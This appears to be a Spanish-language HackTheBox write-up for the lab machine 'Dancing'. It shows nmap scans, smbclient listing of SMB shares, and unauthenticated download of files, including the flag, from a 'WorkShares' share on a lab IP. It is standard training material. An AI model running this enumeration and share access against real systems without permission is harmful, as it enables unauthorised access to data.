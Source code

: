 ```yaml
---
title: Dancing
author: d3vjh
date: 2024-02-15 12:00:00 +0000
categories: [Security, HTB]
tags: [Windows, Enumeration, Exploitation]
image: /assets/img/commons/Dancing/Dancing.png
---
```


## Recopilación de información

![Untitled](1.png)

```bash
❯ ping -c 1 10.129.197.183
PING 10.129.197.183 (10.129.197.183) 56(84) bytes of data.
64 bytes from 10.129.197.183: icmp_seq=1 ttl=127 time=84.5 ms


--- 10.129.197.183 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 84.479/84.479/84.479/0.000 ms
```

De esta traza `ICMP` podemos obtener que, debido al `ttl=127`, estamos frente a una máquina Windows.

Hacemos un escaneo con la herramienta **nmap**:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.197.183 -oG allPorts
```

Resultado:
```bash
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  msrpc        syn-ack ttl 127
49665/tcp open  msrpc        syn-ack ttl 127
49666/tcp open  msrpc        syn-ack ttl 127
49667/tcp open  msrpc        syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127
49669/tcp open  msrpc        syn-ack ttl 127
```

Luego, realizamos un escaneo más detallado para identificar versiones y servicios:

```bash
nmap -sCV -p135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.129.197.183 -oN targeted
```

Resultado:
```bash
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
```

## Análisis de vulnerabilidades

Por el puerto `445`, encontramos que está corriendo `microsoft-ds?`, relacionado con `SMB`. Este servicio puede ser explotado para compartir recursos en la red. Usando `smbclient`, listamos los servicios disponibles:

```bash
smbclient -L 10.129.197.183
```

Salida:
```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```

Nos conectamos al recurso `WorkShares`:

```bash
smbclient \\\\10.129.197.183\\WorkShares
```

Salida:
```bash
smb: \> ls
  .                                   D        0  ...
  Amy.J                               D        0  ...
  James.P                             D        0  ...
```

## Explotación de vulnerabilidades

Entramos al directorio `Amy.J` y descargamos un archivo:

```bash
smb: \Amy.J\> get worknotes.txt
```

Hacemos lo mismo en `James.P`:

```bash
smb: \James.P\> get flag.txt
```

## Post-Explotación

Revisamos los archivos descargados y analizamos el contenido:

![Archivo 1](/assets/img/commons/Dancing/2.png)  
![Archivo 2](/assets/img/commons/Dancing/3.png)


